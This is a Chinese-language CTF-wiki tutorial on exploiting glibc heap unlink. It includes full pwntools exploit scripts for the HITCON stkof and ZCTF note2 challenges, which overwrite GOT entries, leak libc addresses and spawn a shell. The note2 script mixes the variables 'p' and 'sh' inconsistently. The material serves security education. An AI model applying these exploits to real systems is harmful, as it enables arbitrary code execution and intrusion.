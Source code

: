 Unlink
======

原理
----

我们在利用 unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行内存布局，然后借助 unlink 操作来达成修改指针的效果。

我们先来简单回顾一下 unlink 的目的与过程，其目的是把一个双向链表中的空闲块拿出来，然后和目前物理相邻的 free chunk 进行合并。其基本的过程如下

.. figure:: /pwn/heap/figure/unlink_smallbin_intro.png
   :alt: 

下面我们首先介绍一下 unlink 最初没有防护时的利用方法，然后介绍目前利用 unlink 的方式。

古老的 unlink
~~~~~~~~~~~~~

在最初 unlink 实现的时候，其实是没有对双向链表检查的，也就是说，没有以下的代码。

.. code:: c

    // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \
    // fd bk
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
      
      // next_size related
                  if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                    || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
                  malloc_printerr (check_action,                                      \
                                   "corrupted double-linked list (not small)",    \
                                   P, AV);   

**这里我们以 32 位为例**\ ，假设堆内存最初的布局是下面的样子

.. figure:: /pwn/heap/figure/old_unlink_vul.png
   :alt: 

那么如果我们通过某种方式（\ **比如溢出**\ ）将 Nextchunk 的 fd 和 bk 指针修改为指定的值。则当我们free(Q)时

1. glibc 判断这个块是 small chunk。
2. 判断前向合并，发现前一个 chunk 处于使用状态，不需要前向合并。
3. 判断后向合并，发现后一个 chunk 处于空闲状态，需要合并。
4. 继而对 nextchunk 采取 unlink 操作。

那么 unlink 具体执行的效果是什么样子呢？我们可以来分析一下

-  FD=P->fd = target addr -12
-  BK=P->bk = expect value
-  FD->bk = BK，即 \*(target addr-12+12)=BK=expect value
-  BK->fd = FD，即\*(expect value +8) = FD = target addr-12

**看起来我们似乎可以通过 unlink 直接实现任意地址读写的目的，但是我们还是需要确保 expect value +8 地址具有可写的权限。**

比如说我们将 target addr 设置为某个 got 表项，那么当程序调用对应的 libc 函数时，就会直接执行我们设置的值（expect value）处的代码。\ **需要注意的是，expect value+8 处的值被破坏了，需要想办法绕过。**

当前的 unlink
~~~~~~~~~~~~~

**但是，现实是残酷的。。**\ 我们刚才考虑的是没有检查的情况，但是一旦加上检查，就没有这么简单了。我们看一下对 fd 和 bk 的检查

.. code:: c

    // fd bk
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

此时

-  FD->bk = target addr - 12 + 12=target\_addr
-  BK->fd = expect value + 8

那么我们上面所利用的修改 GOT 表项的方法就可能不可用了。但是，如果我们使得 expect value+8 以及 target\_addr 等于 P，那么我们就可以执行

-  \*P= expect value = P - 8
-  \*P = target addr -12 = P - 12

即改写了指针 P 的内容，将其指向了比自己低 12 的地址处。

而如果我们想要使得两者都指向 P，只需要安装如下方式修改即可

.. figure:: /pwn/heap/figure/new_unlink_vul.png
   :alt: 

我们会通过之后的例子来说明，我们这样的修改是可以达到一定的效果的。

需要注意的是，这里我们并没有违背下面的约束。

.. code:: c

        // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \

**此外，其实如果我们设置next chunk 的 fd 和 bk 均为 nextchunk 的地址也是可以绕过上面的检测的。但是这样的话，并不能达到修改指针内容的效果。**

2014 HITCON stkof
-----------------

基本信息
~~~~~~~~

.. code:: shell

    ➜  2014_hitcon_stkof git:(master) file stkof   
    stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
    ➜  2014_hitcon_stkof git:(master) checksec stkof        
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2014_hitcon_stkof/stkof'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出，程序是 64 位的，主要开启了 Canary 和 NX 保护。

基本功能
~~~~~~~~

程序几乎啥输出也没有，只能硬看了，大概是一个内存分配器，差不多有四个功能

-  1，分配指定大小的内存，并在bss段记录对应 chunk 的指针，假设其为global。
-  2，根据指定索引，以及指定大小向指定内存处，读入数据。\ **可见，这里存在堆溢出的情况，因为这里读入字节的大小是由我们来控制的。**
-  3，根据指定索引，释放已经分配的内存块。
-  4，这个功能并没有什么乱用，本来以为是可以输出内容，结果什么也没有输出。。

初步测试
~~~~~~~~

值得注意的是，由于程序本身没有进行 setbuf 操作，所以在执行输入输出操作的时候会申请缓冲区。这里经过测试，会申请两个缓冲区，分别大小为1024 和 1024。具体如下，可以进行调试查看

初次调用 fgets 时，malloc会分配缓冲区 1024 大小。

::

    *RAX  0x0
    *RBX  0x400
    *RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
    *RDX  0x88
    *RDI  0x400
    *RSI  0x7fffffffd860 ◂— 0x16
    *R8   0x1
    *R9   0x0
    *R10  0x7ffff7fd2700 ◂— 0x7ffff7fd2700
    *R11  0x246
    *R12  0xa
    *R13  0x9
     R14  0x0
    *R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
    *RBP  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
    *RSP  0x7fffffffd858 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
    *RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
    ─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
     ► 0x7ffff7a91130 <malloc>        push   rbp <0x7ffff7dd18e0>
    ...，省略
     ► f 0     7ffff7a91130 malloc
       f 1     7ffff7a7a1d5 _IO_file_doallocate+85
       f 2     7ffff7a88594 _IO_doallocbuf+52
       f 3     7ffff7a8769c _IO_file_underflow+508
       f 4     7ffff7a8860e _IO_default_uflow+14
       f 5     7ffff7a7bc6a _IO_getline_info+170
       f 6     7ffff7a7bd78
       f 7     7ffff7a7ab7d fgets+173
       f 8           400d2e
       f 9     7ffff7a2d830 __libc_start_main+240

分配之后，堆如下

::

    pwndbg> heap
    Top Chunk: 0xe05410
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 PREV_INUSE {
      prev_size = 0, 
      size = 134129, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

当分配16大小的内存后，堆布局如下

::

    pwndbg> heap
    Top Chunk: 0xe05430
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa3631, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 FASTBIN {
      prev_size = 0, 
      size = 33, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x20bd1
    }
    0xe05430 PREV_INUSE {
      prev_size = 0, 
      size = 134097, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

当使用 printf 函数，会分配 1024 字节空间，如下

::

    *RAX  0x0
    *RBX  0x400
    *RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
    *RDX  0x88
    *RDI  0x400
    *RSI  0x7fffffffd1c0 ◂— 0x16
     R8   0x0
    *R9   0x0
    *R10  0x0
    *R11  0x246
    *R12  0x1
    *R13  0x7fffffffd827 ◂— 0x31 /* '1' */
     R14  0x0
    *R15  0x400de4 ◂— and    eax, 0x2e000a64 /* '%d\n' */
    *RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2284
    *RSP  0x7fffffffd1b8 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
    *RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
    ─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
     ► 0x7ffff7a91130 <malloc>       push   rbp <0x7ffff7dd2620>
    。。。省略
    ► f 0     7ffff7a91130 malloc
       f 1     7ffff7a7a1d5 _IO_file_doallocate+85
       f 2     7ffff7a88594 _IO_doallocbuf+52
       f 3     7ffff7a878f8 _IO_file_overflow+456
       f 4     7ffff7a8628d _IO_file_xsputn+173
       f 5     7ffff7a5ae00 vfprintf+3216
       f 6     7ffff7a62899 printf+153
       f 7           4009cd
       f 8           400cb1
       f 9     7ffff7a2d830 __libc_start_main+240

堆布局如下

::

    pwndbg> heap
    Top Chunk: 0xe05840
    Last Remainder: 0

    0xe05000 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa3631, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05410 FASTBIN {
      prev_size = 0, 
      size = 33, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x411
    }
    0xe05430 PREV_INUSE {
      prev_size = 0, 
      size = 1041, 
      fd = 0xa4b4f, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0xe05840 PREV_INUSE {
      prev_size = 0, 
      size = 133057, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

此后，无论是输入输出都不会再申请缓冲去了。所以我们最好最初的申请一个 chunk 来把这些缓冲区给申请了，方便之后操作。

但是，比较有意思的是，如果我们是 attach 上去的话，第一个缓冲区分配的大小为 4096 大小。

::

    pwndbg> heap
    Top Chunk: 0x1e9b010
    Last Remainder: 0

    0x1e9a000 PREV_INUSE {
      prev_size = 0, 
      size = 4113, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }
    0x1e9b010 PREV_INUSE {
      prev_size = 0, 
      size = 135153, 
      fd = 0x0, 
      bk = 0x0, 
      fd_nextsize = 0x0, 
      bk_nextsize = 0x0
    }

基本思路
~~~~~~~~

根据上面分析，我们在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

-  利用 unlink 修改 global[2] 为 &global[2]-0x18。
-  利用编辑功能修改 global[0] 为 free@got 地址，同时修改 global[1] 为puts@got 地址，global[2] 为 atoi@got 地址。
-  修改 ``free@got`` 为 ``puts@plt`` 的地址，从而当再次调用 ``free`` 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容。
-  free global[2]，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址。
-  修改 ``atoi@got`` 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可。

代码如下

.. code:: python

    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    if args['DEBUG']:
        context.log_level = 'debug'
    context.binary = "./stkof"
    stkof = ELF('./stkof')
    if args['REMOTE']:
        p = remote('127.0.0.1', 7777)
    else:
        p = process("./stkof")
    log.info('PID: ' + str(proc.pidof(p)[0]))
    libc = ELF('./libc.so.6')
    head = 0x602140


    def alloc(size):
        p.sendline('1')
        p.sendline(str(size))
        p.recvuntil('OK\n')


    def edit(idx, size, content):
        p.sendline('2')
        p.sendline(str(idx))
        p.sendline(str(size))
        p.send(content)
        p.recvuntil('OK\n')


    def free(idx):
        p.sendline('3')
        p.sendline(str(idx))


    def exp():
        # trigger to malloc buffer for io function
        alloc(0x100)  # idx 1
        # begin 
        alloc(0x30)  # idx 2
        # small chunk size in order to trigger unlink
        alloc(0x80)  # idx 3
        # a fake chunk at global[2]=head+16 who's size is 0x20
        payload = p64(0)  #prev_size
        payload += p64(0x20)  #size
        payload += p64(head + 16 - 0x18)  #fd
        payload += p64(head + 16 - 0x10)  #bk
        payload += p64(0x20)  # next chunk's prev_size bypass the check
        payload = payload.ljust(0x30, 'a')
        # overwrite global[3]'s chunk's prev_size
        # make it believe that prev chunk is at global[2]
        payload += p64(0x30)
        # make it believe that prev chunk is free
        payload += p64(0x90)
        edit(2, len(payload), payload)
        # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
        free(3)
        p.recvuntil('OK\n')
        #gdb.attach(p)
        # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
        payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
            stkof.got['atoi'])
        edit(2, len(payload), payload)
        # edit free@got to puts@plt
        payload = p64(stkof.plt['puts'])
        edit(0, len(payload), payload)

        #free global[1] to leak puts addr
        free(1)
        puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
        puts_addr = u64(puts_addr)
        log.success('puts addr: ' + hex(puts_addr))
        libc_base = puts_addr - libc.symbols['puts']
        binsh_addr = libc_base + next(libc.search('/bin/sh'))
        system_addr = libc_base + libc.symbols['system']
        log.success('libc base: ' + hex(libc_base))
        log.success('/bin/sh addr: ' + hex(binsh_addr))
        log.success('system addr: ' + hex(system_addr))
        # modify atoi@got to system addr
        payload = p64(system_addr)
        edit(2, len(payload), payload)
        p.send(p64(binsh_addr))
        p.interactive()


    if __name__ == "__main__":
        exp()

2016 ZCTF note2
---------------

分析程序
~~~~~~~~

首先，我们先分析一下程序，可以看出程序的主要功能为

-  添加note，size限制为0x80，size会被记录，note指针会被记录。
-  展示note内容。
-  编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
-  释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

.. code:: c

    unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
    {
      char v4; // [sp+Ch] [bp-34h]@1
      char buf; // [sp+2Fh] [bp-11h]@2
      unsigned __int64 i; // [sp+30h] [bp-10h]@1
      __int64 v7; // [sp+38h] [bp-8h]@2

      v4 = a3;
      for ( i = 0LL; a2 - 1 > i; ++i )
      {
        v7 = read(0, &buf, 1uLL);
        if ( v7 <= 0 )
          exit(-1);
        if ( buf == v4 )
          break;
        *(_BYTE *)(i + a1) = buf;
      }
      *(_BYTE *)(a1 + i) = 0;
      return i;
    }

其中i是unsigned类型，a2为int类型，所以两者在for循环相比较的时候，a2-1的结果-1会被视为unsigned类型，此时，即最大的整数。所以说可以读取任意长度的数据，这里也就是后面我们溢出所使用的办法。

基本思路
~~~~~~~~

这里我们主要利用发现的第一个问题，主要利用了 fastbin 的机制、unlink 的机制。

下面依次进行讲解。

基本操作
^^^^^^^^

首先，我们先把note可能的基本操作列举出来。

.. code:: python

    p = process('./note2')
    note2 = ELF('./note2')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    context.log_level = 'debug'


    def newnote(length, content):
        p.recvuntil('option--->>')
        p.sendline('1')
        p.recvuntil('(less than 128)')
        p.sendline(str(length))
        p.recvuntil('content:')
        p.sendline(content)


    def shownote(id):
        p.recvuntil('option--->>')
        p.sendline('2')
        p.recvuntil('note:')
        p.sendline(str(id))


    def editnote(id, choice, s):
        p.recvuntil('option--->>')
        p.sendline('3')
        p.recvuntil('note:')
        p.sendline(str(id))
        p.recvuntil('2.append]')
        p.sendline(str(choice))
        p.sendline(s)


    def deletenote(id):
        p.recvuntil('option--->>')
        p.sendline('4')
        p.recvuntil('note:')
        p.sendline(str(id))

生成三个note
^^^^^^^^^^^^

这一部分对应的代码如下

.. code:: python

    # chunk0: a fake chunk
    ptr = 0x0000000000602120
    fakefd = ptr - 0x18
    fakebk = ptr - 0x10
    content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
    #content = p64(fakefd) + p64(fakebk)
    newnote(128, content)
    # chunk1: a zero size chunk produce overwrite
    newnote(0, 'a' * 8)
    # chunk2: a chunk to be overwrited and freed
    newnote(0x80, 'b' * 16)

其中这三个note的大小分别为0x80，0，0x80，第二个chunk虽然申请的大小为0，但是glibc的要求chunk块至少可以存储4个必要的字段(prev\_size,size,fd,bk)，所以会分配0x20的空间。同时，由于无符号整数的比较问题，可以为该note输入任意长的字符串。

这里需要注意的是，chunk1中一共构造了两个chunk

-  chunk ptr[0]，这个是为了unlink时修改对应的值。
-  chunk ptr[0]'s nextchunk，这个是为了使得unlink时的第一个检查满足。

.. code:: c

        // 由于P已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致。
        if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
          malloc_printerr ("corrupted size vs. prev_size");               \

当构造完三个 note 后，堆的基本构造如图1所示。

::

                                       +-----------------+ high addr
                                       |      ...        |
                                       +-----------------+
                                       |      'b'*8      |
                    ptr[2]-----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+------------
                                       |    unused       |
                                       +-----------------+
                                       |    'a'*8        |
                     ptr[1]----------> +-----------------+  chunk 1
                                       |    size=0x20    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+-------------
                                       |    unused       |
                                       +-----------------+
                                       |  prev_size=0x60 |
    fake ptr[0] chunk's nextchunk----->+-----------------+
                                       |    64*'a'       |
                                       +-----------------+
                                       |    fakebk       |
                                       +-----------------+
                                       |    fakefd       |
                                       +-----------------+
                                       |    0x61         |  chunk 0
                                       +-----------------+
                                       |    'a *8        |
                     ptr[0]----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prev_size    |
                                       +-----------------+  low addr
                                               图1

释放chunk1-覆盖chunk2-释放chunk2
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

对应的代码如下

.. code:: python

    # edit the chunk1 to overwrite the chunk2
    deletenote(1)
    content = 'a' * 16 + p64(0xa0) + p64(0x90)
    newnote(0, content)
    # delete note 2 to trigger the unlink
    # after unlink, ptr[0] = ptr - 0x18
    deletenote(2)

首先释放 chunk1，由于该chunk属于fastbin，所以下次在申请的时候仍然会申请到该chunk，同时由于上面所说的类型问题，我们可以读取任意字符，所以就可以覆盖chunk3，覆盖之后如图2所示。

::

                                       +-----------------+high addr
                                       |      ...        |
                                       +-----------------+
                                       |   '\x00'+'b'*7  |
                    ptr[2]-----------> +-----------------+ chunk 2
                                       |    size=0x90    |
                                       +-----------------+
                                       |    0xa0         |
                                       +-----------------+------------
                                       |    'a'*8        |
                                       +-----------------+
                                       |    'a'*8        |
                     ptr[1]----------> +-----------------+ chunk 1
                                       |    size=0x20    |
                                       +-----------------+
                                       |    prevsize     |
                                       +-----------------+-------------
                                       |    unused       |
                                       +-----------------+
                                       |  prev_size=0x60 |
    fake ptr[0] chunk's nextchunk----->+-----------------+
                                       |    64*'a'       |
                                       +-----------------+
                                       |    fakebk       |
                                       +-----------------+
                                       |    fakefd       |
                                       +-----------------+
                                       |    0x61         |  chunk 0
                                       +-----------------+
                                       |    'a *8        |
                     ptr[0]----------> +-----------------+
                                       |    size=0x91    |
                                       +-----------------+
                                       |    prev_size    |
                                       +-----------------+  low addr
                                               图2

该覆盖主要是为了释放chunk2的时候可以后向合并（合并低地址），对chunk0中虚拟构造的chunk进行unlink。即将要执行的操作为unlink(ptr[0])，同时我们所构造的fakebk和fakefd满足如下约束

.. code:: c

        if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \

unlink成功执行，会导致ptr[0]所存储的地址变为fakebk，即ptr-0x18。

获取system地址
^^^^^^^^^^^^^^

代码如下

.. code:: python

    # overwrite the chunk0(which is ptr[0]) with got atoi
    atoi_got = note2.got['atoi']
    content = 'a' * 0x18 + p64(atoi_got)
    editnote(0, 1, content)
    # get the aoti addr
    shownote(0)

    sh.recvuntil('is ')
    atoi_addr = sh.recvuntil('\n', drop=True)
    print atoi_addr
    atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
    print 'leak atoi addr: ' + hex(atoi_addr)

    # get system addr
    atoi_offest = libc.symbols['atoi']
    libcbase = atoi_addr - atoi_offest
    system_offest = libc.symbols['system']
    system_addr = libcbase + system_offest

    print 'leak system addr: ', hex(system_addr)

我们修改ptr[0]的内容为 ptr 的地址-0x18，所以当我们再次编辑 note0 时，可以覆盖ptr[0]的内容。这里我们将其覆盖为atoi的地址。 这样的话，如果我们查看note 0的内容，其实查看的就是atoi的地址。

之后我们根据 libc 中对应的偏移计算出 system 的地址。

修改atoi got
^^^^^^^^^^^^

.. code:: python

    # overwrite the atoi got with systemaddr
    content = p64(system_addr)
    editnote(0, 1, content)

由于此时 ptr[0] 的地址 got 表的地址，所以我们可以直接修改该 note，覆盖为 system 地址。

get shell
^^^^^^^^^

.. code:: python

    # get shell
    sh.recvuntil('option--->>')
    sh.sendline('/bin/sh')
    sh.interactive()

此时如果我们再调用 atoi ，其实调用的就是 system 函数，所以就可以拿到shell了。

题目
----

-  `Insomni'hack 2017-Wheel of Robots <https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a>`__
-  `DEFCON 2017 Qualifiers beatmeonthedl <https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl>`__

参考
----

-  malloc@angelboy
